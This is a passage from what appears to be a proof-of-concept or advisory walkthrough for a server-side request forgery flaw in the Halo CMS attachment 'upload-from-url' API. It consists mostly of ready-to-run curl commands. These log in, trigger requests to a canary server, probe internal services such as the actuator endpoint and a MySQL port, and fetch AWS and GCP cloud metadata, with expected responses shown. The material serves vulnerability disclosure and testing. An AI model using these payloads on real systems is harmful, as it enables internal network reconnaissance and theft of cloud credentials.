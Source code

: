 ```bash

ENCRYPTED_PASSWORD=$(python3 encrypt_password.py "your_password" "$(cat public_key.txt)")

# Login with encrypted password
curl -s -b cookies.txt -c cookies.txt -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=your_username&password=${ENCRYPTED_PASSWORD}&_csrf=${CSRF_TOKEN}" \
  "http://localhost:8090/login"
```

#### Step 6: Test SSRF via Upload from URL

```bash
# Terminal 2: Trigger SSRF to canary server
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://host.docker.internal:8889/upload-canary.txt","filename":"ssrf-test.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

# Expected output:
# HTTP/1.1 201 Created
# {"metadata":{"name":"..."},"spec":{"displayName":"ssrf-test.txt"}}

# Check Terminal 1 - you should see DUAL requests:
# host.docker.internal - - [DATE] "HEAD /upload-canary.txt HTTP/1.1" 200 -
# host.docker.internal - - [DATE] "GET /upload-canary.txt HTTP/1.1" 200 -
```

#### Step 7: Internal Network Reconnaissance

```bash
# Test internal service access (Halo actuator endpoints)
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://127.0.0.1:8090/actuator/health","filename":"internal-health.json"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

# Expected: 201 Created with attachment containing internal service response

# Test other internal ports
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://127.0.0.1:3306","filename":"mysql-probe.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"
```

#### Step 8: Cloud Metadata Server Testing

```bash
# AWS EC2 metadata (if running on AWS)
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://169.254.169.254/latest/meta-data/","filename":"aws-metadata.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"

# GCP metadata (if running on GCP)
curl -b cookies.txt -X POST \
  -H "Content-Type: application/json" \
  -d '{"url":"http://metadata.google.internal/computeMetadata/v1/","filename":"gcp-metadata.txt"}' \
  "http://localhost:8090/apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url"
```
